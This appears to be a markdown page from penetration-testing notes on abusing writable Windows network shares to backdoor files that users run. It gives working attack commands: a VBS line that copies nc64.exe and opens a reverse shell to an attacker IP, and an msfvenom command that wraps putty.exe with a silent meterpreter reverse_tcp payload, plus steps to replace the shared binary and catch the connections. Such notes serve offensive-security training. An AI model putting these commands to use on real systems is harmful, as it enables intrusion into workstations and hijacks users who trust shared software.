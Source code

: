 ## Abusing Writable Shares
If network shares are writable, an attacker can plant files to force users into executing any arbitrary payload and gain access to machine

Example:  
- Find a shortcut to a script or executable file hosted on a network share such as the example below for putty.exe

![Alt text](<../../Images/putty exe image.png>)

Properties > Target: \\10.10.28.6\myshare\putty.exe  

- Administrators can maintain an executable on a network share, and users can execute it without copying or installing the application to user's machine
- If attackers have write permissions over such scripts/executables, we can backdoor them to force users to execute any payload
- Script is hosted on a server > user opens the shortcut on workstation > executable will be copied from server to %temp% folder and executed on workstation
- Any payload will run in the context of the final user's workstation (logged-in user account)

## Backdooring .vbs Scripts
If shared resources is a VBS script, we can put a copy of nc64.exe on the same share and inject the following code in the shared script:  
<pre>CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True</pre>

- This will copy `nc64.exe` from the share to user's workstation `%temp%` directory
- Send reverse shell back to attacker when user opens the shared VBS script

## Backdooring .exe Files
- If shared file is a Windows binary, for example `putty.exe`, you can download it from the share and use msfvenom to inject a backdoor
- Binary will work as usual but will execute an additional payload (silently)

Create a backdoor putty.exe:
<pre>msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe</pre>
- `putty.exe` will execute a reverse_tcp meterpreter payload without user noticing
- Once file has been generated, replace the executable on the Windows share and wait for connections using `exploit/multi/handler` module from Metasploit
